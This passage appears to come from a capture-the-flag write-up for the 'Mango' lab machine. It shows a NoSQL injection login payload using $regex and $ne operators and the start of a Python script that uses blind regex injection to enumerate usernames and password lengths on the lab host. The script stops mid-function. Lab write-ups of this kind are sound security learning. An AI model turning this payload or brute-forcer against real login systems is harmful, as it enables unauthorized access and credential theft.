 ```
username[$regex]=^.{5}$&password[$ne]=dusk&login=login
```

<img src="/assets/img/mango/Untitled 9.png" alt="Untitled 9.png" style="width:800px;">

After a long period of testing (or not that long), here is the final product. It was a fun coding challenge.

```python
import argparse
import requests
import string
import sys
import time

class exploit:
    def __init__(self, target):
        self.url = f'http://{target}/'
        self.headers = {
            'Content-Type': 'application/x-www-form-urlencoded',
            'Host': 'staging-order.mango.htb'
        }
        self.chars = string.ascii_letters + string.digits + '!"#%\'()+,-/:;<=>@[\]_`{}~' + '$'
        self.valid_users = []

    def make_request(self, data):
        response = requests.post(self.url, headers=self.headers, data=data, allow_redirects=False)       
        if response.status_code == 302:
            return True
        
    def discover_users_length(self):
        users_length = []
        for length in range(1, 15):
            data = 'username[$regex]=^.{' + str(length) + '}$&password[$ne]=dusk&login=login'
            if self.make_request(data) and length:
                users_length.append(str(length))
        return users_length

    def discover_password_length(self, user):
        for length in range(1, 22):
```